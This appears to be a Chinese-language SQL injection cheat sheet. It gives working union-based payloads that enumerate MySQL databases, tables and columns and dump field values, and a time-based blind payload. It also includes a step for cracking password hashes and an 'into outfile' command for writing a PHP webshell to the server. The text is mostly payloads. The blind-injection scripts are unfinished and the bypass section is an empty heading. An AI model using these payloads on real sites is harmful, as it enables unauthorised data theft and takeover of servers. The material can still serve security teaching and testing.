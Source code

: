 #### 猜解数据库

- 数据库版本信息：

  `?id=' union select 1, version(), 3 %23`

- 当前数据库和用户：

  `?id=' union select 1, database(), user() %23`

- 所有数据库：

  `?id=' union select 1, (select group_concat(schema_name) from information_schema.schemata), 3 %23`

- 表名：

  `?id=' union select 1, (select group_concat(table_name) from information_schema.tables where table_schema='<当前数据库名称>'), 3 %23`

- 列名：

  `?id=' union select 1, (select group_concat(column_name) from information_schema.columns where table_schema='<当前数据库名称>' and table_name='<当前表名>'), 3 %23`

- 字段值 ( 其中 separator 可选 ) ：

  `?id=' union select 1,(select group_concat(<查询到的列名> separator ';') from <当前表名>), 3 %23`

#### 获取哈希口令

> 哈希口令是通过使用 PASSWORD() 函数计算的，具体算法取决于 MySQL 安装的版本。
> `select password('admin')`
> 也可以通过在线解密网站进行解密。如 [CMD5](http://www.cmd5.com/)

#### 写入 Webshell

> 需要得到网站的绝对路径，数据库管理系统有向服务器文件系统写文件的权限。
> `?id=1' union select "" into outfile "D:\\XXX\\conn.php"%23`

### 盲注

上述是用有回显注入举例说明 Sql 注入的基本过程的例子，盲注过程与此类似，只不过没有回显
需要逐位尝试。

只要回显中有固定字符串，都可使用盲注脚本。

#### 时间盲注

`id=1 union select 1，if(SUBSTRING(user(),1,4)='root',sleep(5),1),3`（substring 函数的作用是将 user()从第一位字母到第四位字母截断。这段参数的注入逻辑是，user()的第一位到第四位如果为'root'，则页面等待 5 秒，否则结果为 1。）

脚本：待补充

#### 布尔盲注

脚本：待补充

## 绕过方式

